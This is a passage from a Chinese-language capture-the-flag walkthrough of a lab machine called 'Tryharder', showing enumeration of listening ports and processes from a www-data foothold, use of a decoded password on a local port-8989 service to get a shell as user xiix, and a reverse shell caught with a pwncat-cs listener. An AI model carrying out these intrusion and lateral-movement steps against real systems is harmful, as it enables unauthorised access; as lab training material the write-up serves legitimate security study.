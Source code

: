 ```python

decoded_str = binary_bytes.decode('utf-8')

print(decoded_str)
# Y0U_5M4SH3D_17_8UDDY
```

同时，尝试探测这个 python 脚本在做什么

```bash
(remote) www-data@Tryharder:/tmp$ ss -lntup
Netid                   State                    Recv-Q                   Send-Q                                     Local Address:Port                                     Peer Address:Port
udp                     UNCONN                   0                        0                                                0.0.0.0:68                                            0.0.0.0:*
tcp                     LISTEN                   0                        128                                              0.0.0.0:22                                            0.0.0.0:*
tcp                     LISTEN                   1                        5                                              127.0.0.1:8989                                          0.0.0.0:*
tcp                     LISTEN                   0                        128                                                    *:80                                                  *:*
tcp                     LISTEN                   0                        128                                                 [::]:22                                               [::]:*

(remote) www-data@Tryharder:/tmp$ ps -A | grep python
12779 ?        00:00:00 python
14279 ?        00:00:00 python3
28321 ?        00:00:00 python3
```

尝试与这个 `8989` 端口进行通信

```bash
(remote) www-data@Tryharder:/tmp$ nc 127.0.0.1 8989
Enter password: Y0U_5M4SH3D_17_8UDDY
Access granted!
shell> whoami
xiix
```

尝试反弹 shell

```bash
┌──(randark ㉿ kali)-[~]
└─$ pwncat-cs -lp 9999
[17:18:03] Welcome to pwncat 🐈!                                                                                                                                                                 __main__.py:164
[17:18:14] received connection from 192.168.56.129:37612
[17:18:14] 0.0.0.0:9999: normalizing shell path
           192.168.56.129:37612: registered new host w/ db
(local) pwncat$ back
(remote) xiix@Tryharder:/home/xiix$ whoami
xiix
```
